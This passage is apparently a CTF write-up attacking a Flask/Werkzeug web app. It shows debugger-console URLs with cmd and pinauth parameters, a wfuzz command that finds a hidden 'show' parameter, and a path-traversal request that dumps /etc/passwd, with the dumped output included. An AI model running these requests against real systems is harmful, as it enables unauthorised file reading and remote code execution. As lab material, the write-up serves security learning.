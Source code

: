 I tried simply breaking into the js code and changing the auth value too see if the checks were client side but then my commands would return `404`
```
:5000/console?__debugger__=yes&cmd=print(%22Test%22)&frm=0&s=vXhr907ElFrxmueAlAsl
```

```
:5000/console?__debugger__=yes&cmd=pinauth&pin=44&s=vXhr907ElFrxmueAlAsl
```

Sooo, looking around, it seems like we can reverse the pin generation but we need some secrets. See https://ctftime.org/writeup/17955, https://book.hacktricks.xyz/pentesting/pentesting-web/werkzeug

We need a file inclusion exploit to retrieve those.

When we query the books, we get the first line of the book. This is probably read from file. We got to find a way to abuse the api.

Hmmm been toying around with the `books` endpoint but couldn't get anything interesting..

Neither with the `"?__debugger__=yes&amp;cmd=resource&amp;f=FILE"` requests... Seems like we can only get files in the current folder..
Well `../` doesn't seem to work

At this point, i'm kinda lost, can't find the local file inclusion vuln.. there is a big chance that the file inclusion is in the `books` endpoint but can't figure it out..

Trying to fuzz the get parameter to see if there is some hidden parameter...

Soo this was the way to go, but, im so stupid, didn't really check if there was a `/v1` api and indeed there is one.

fuzzing the parameters again with `wfuzz -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404 http://$IP:5000/api/v1/resources/books?FUZZ=1`
We find the parameter
```
show
```

Which is a direct file inclusion. We can dump `/etc/passwd` with 
`http://$IP:5000/api/v1/resources/books?show=../../../etc/passwd`
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
```